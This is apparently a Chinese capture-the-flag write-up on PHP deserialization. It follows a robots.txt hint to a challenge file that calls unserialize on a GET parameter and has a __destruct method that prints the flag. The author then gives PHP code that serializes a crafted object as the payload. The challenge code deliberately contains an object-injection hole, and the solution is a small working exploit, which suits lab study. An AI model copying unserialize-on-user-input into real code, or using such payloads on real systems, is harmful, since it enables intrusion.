 # 反序列化

## 提示

<!--
User-agent: *
Disallow: 什么东西呢？
-->
这东西指向robots.txt

直接路径访问即可

获取关键信息: /cl45s.php

内容如下:

## php源码

```php
<?php
error_reporting(0);
show_source("cl45s.php");

class wllm
{

    public $admin;
    public $passwd;

    public function __construct()
    {
        $this->admin = "user";
        $this->passwd = "123456";
    }

    public function __destruct()
    {
        if ($this->admin === "admin" && $this->passwd === "ctf") {
            include ("flag.php");
            echo $flag;
        } else {
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```

因此同样构造一个类, 然后序列化, 然后url编码; (有一些不可见字符可能丢失;)

```php
<?php
class wllm {
    public $admin;
    public $passwd;

    public function __construct($admin, $passwd) {
        $this->admin = $admin;
        $this->passwd = $passwd;
    }
}

// 创建 wllm 类的实例并设置属性
$instance = new wllm("admin", "ctf");

// 序列化实例
$serialized = serialize($instance);

// 输出序列化字符串
echo $serialized;
?>
```
